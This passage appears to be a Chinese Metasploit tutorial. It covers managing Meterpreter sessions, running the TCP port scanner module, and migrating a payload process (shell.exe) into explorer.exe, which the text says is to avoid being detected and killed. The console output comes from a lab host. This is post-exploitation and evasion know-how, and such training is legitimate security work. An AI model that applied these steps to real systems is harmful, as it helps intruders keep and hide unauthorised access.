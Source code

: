 ## 3、Meterpreter Session

注意：

在Meterpreter Shell中退出session使用 `exit`；

在模块界面删除session使用 `session -k sessionID`；

而退到后台是使用 `background`；

```
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 192.168.43.103 - Meterpreter session 1 closed.  Reason: User exit
[*] 192.168.43.103 - Meterpreter session 1 closed.  Reason: Died

msf exploit(handler) > sessions -k 2
[*] Killing the following session(s): 2
[*] Killing session 2
[*] 192.168.43.103 - Meterpreter session 2 closed.
```

## 4、migrate 进程注入

接收到 meterpreter 之后就应该将自己的进程迁移到一个隐蔽的进程中去，防止被查杀，直接在meterpreter中使用`migrate PID`；

```
meterpreter > getuid
Server username: Go0s-PC\Go0s
meterpreter > getpid
Current pid: 1784
meterpreter > ps

Process List
============
 PID   PPID  Name                       Arch  Session  User          Path
 ---   ----  ----                       ----  -------  ----          ----
 1784  3016  shell.exe                  x86   2        Go0s-PC\Go0s  C:\Users\Go0s\Desktop\shell.exe
 3016  1124  explorer.exe               x64   2        Go0s-PC\Go0s  C:\Windows\explorer.exe

meterpreter > migrate 3016
[*] Migrating from 1784 to 3016...
[*] Migration completed successfully.
meterpreter > getpid
Current pid: 3016
```

## 5、IP&端口 设置格式

当模块或者payload，设置ip段：

```
msf > use auxiliary/scanner/portscan/tcp 
msf auxiliary(tcp) > show options 

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
```

[Go0s]: ~ 
[Go0s]: ~/Download